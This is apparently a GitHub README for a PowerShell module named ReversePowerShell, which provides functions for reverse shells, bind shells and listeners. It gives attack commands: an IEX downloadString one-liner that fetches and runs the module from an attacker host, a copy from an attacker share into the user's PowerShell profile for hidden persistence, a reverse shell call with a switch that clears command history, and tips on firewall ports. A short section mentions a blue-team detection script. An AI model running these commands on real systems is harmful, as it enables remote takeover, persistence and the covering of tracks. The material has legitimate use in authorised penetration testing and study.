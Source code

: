 # ReversePowerShell
### NOW IN POWERSHELL GALLERY!!!
```powershell
Install-Module ReversePowerShell
```
---
#
Functions that can be used to gain Reverse Shells with PowerShell. Invoke-ReversePowerShell function can be used
to connect to Start-Listener as well as netcat and metasploit modules however it can not connect to Start-Bind.
I will add a tool for that in the future. This is a PowerShell module meaning it only contains functions/cmdlets to be imported into a PowerShell session. If you wish to execute one of the commands whenever the file is run just add the command you wish to execute to the bottom of the file.

#### BLUE TEAM DISCOVERY
Find-ReverseShell.ps1 can be used to search the Windows Event Log for when a Reverse Shell is created that uses a System.Net.Sockets.TcpListener object. This will discover any reverse shell that creates a TcpListener object and not just the below module. This method does not catch PowerCat.ps1 which I am still looking for a good way to discover. This part is still a work in progress.

#### WAYS TO INSTALL OR IMPORT THE MODULE
This is not a requirement. It just a way of saving the module to your device if you wish to keep it around for use at later times.
Install this module by placing the cloned folder "ReversePowerShell" inside the following directory location.
 "$env:USERPROFILE\\WindowsPowerShell\\Modules\\ReversePowerShell"
 For PowerShell Core v6 the location of this module will need to be
 "$env:USERPROFILE\\WindowsPowerShell\\ReversePowerShell"

Once there it can be imported into a PowerShell session using the following command.
```powershell
Import-Module ReversePowerShell
```
Or in cases where you want to import the module from whatever file you are in...
```powershell
Import-Module .\ReversePowerShell.psm1
```

If your are able to use Invoke-Expresion (IEX) this module can be imported using the following command.
You can also copy and paste the functions into your PowerShell session so the cmdlets become available to run.
Notice the .ps1 extension. When using downloadString this will need to be a ps1 file to inject the module into
memory in order to run the cmdlets.
```powershell
IEX (New-Object -TypeName Net.WebClient).downloadString("http://<attacker ipv4>/ReversePowerShell.ps1")
```

IEX is blocked from users in most cases and Import-Module is monitored by things such as ATP. Downloading files to a targerts machine is not always allowed in a penetration test. Another method to use is Invoke-Command. This can be done using the following format.
```powershell
Invoke-Command -ComputerName <target device> -FilePath .'\ReversePowerShell.ps1m' -Credential (Get-Credential)
```
This will execute the file and it's contents on the remote computer.

Another sneaky method would be to have the function load at the start of a new PowerShell window. This can be done by editing the $PROFILE file.
```powershell
Write-Verbose "Creates powershell profile for user"
New-Item -Path $PROFILE -ItemType File -Force
#
# The $PROFILE VARIABLE IS EITHER GOING TO BE
#    - C:\Users\<username>\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1
# OR
#    - C:\Users\<username>\OneDrive\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1
#
# Write-Verbose "Turning this module into the PowerShell profile will import all of the commands everytime the executing user opens a PowerShell session. This means you will need to open a new powershell session after doing this in order to access the commands. I assume this can be done by just executing the "powershell" command though you may need to have a new window opened or new reverse/bind shell opened. You can also just reload the profile
cmd /c 'copy \\<attacker ip>\MyShare\ReversePowerShell.ps1 $env:USERPROFILE\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.psm1

powershell.exe
# If that does not work try reloading the user profile.
& $PROFILE
```

#### START BIND SHELL
The below command can be executed to start a bind shell that connects the defined port to PowerShell.
This command binds PowerShell to port 8088. I do not have a function that can connect to this. Netcat,
ncat, metasploit, and other tools can be used to connect to this bind shell. I will add a tool in the
future. You are able to use Ctrl + C to cancel the bind listener.
```powershell
Start-Bind -Port 8088
```

#### START LISTENER
The below command was executed to start a listener on the Attack machine on port 8089. This can be
connected too using Invoke-ReversePowerShell as well as ncat, netcat, metasploit, and other tools.
The listener can be stopped or canceld by doing Ctrl + C.
```powershell
Start-Listener -Port 8089
```

#### ISSUE REVERSE SHELL CONNECTION
The below command is to be issued on the Target Machine. The below command connected to the listener over
port 8089. This will not be able to complete a connection to the Start-Bind cmdlet.
If a connection failes a loop will be started that begins a 30 second visual countdown timer.
After 30 seconds the connection will attempt to re-establish the shell. I added a switch parameter
to attempt clearing the command history of the user after closing a session. This was added for cases
where a compromised password is going to be entered into the PowerShell terminal in clear text.
```powershell
Invoke-ReversePowerShell -IpAddress 192.168.0.10 -Port 8089 -ClearHistory
```
---
# MISC INFO
#### FIREWALL AND BLOCKED PORTS
If you are not able to gain a connection it is most likely due to the Windows Firewall. If you have access on a machine as a user you will not be able to make firewall changes. You need admin priviledges for that. Use the high range ports RPC would connect to or other common port. If a range has been defined you can find the allowed ports at "HKLM:\Software\Microsoft\Rpc\Internet\ with Entry name Data Type". Otherwise when not defined any ports between 49152-65535 might work.
This command may also display the port allowed RPC port range
```cmd
netsh int ipv4 show dynamicport tcp
```

The following commands can be used to view firewall rules. If one of these does not work.
the other might.
```powershell
# This way should work to display the firewall even if you are a user
$FirewallRule = New-Object -ComObject HNetCfg.FwPolicy2
$FirewallRule.Rules | Select-Object -Property *

# OR
Get-NetFirewallRule | Where-Object { $_.Enabled –eq ‘True’ –and $_.Direction –eq ‘Inbound’ }
Show-NetFirewallRule

# OR
cmd /c netsh advfirewall firewall show rule name=all
```

#### VERIFY LISTENING PORTS
You can verify/view actively listening ports on the target computer by issuing the following command.
```powershell
Get-NetTcpConnection -State Listen
```
or if you are a command prompt kind of person;
```powershell
netstat -q
```
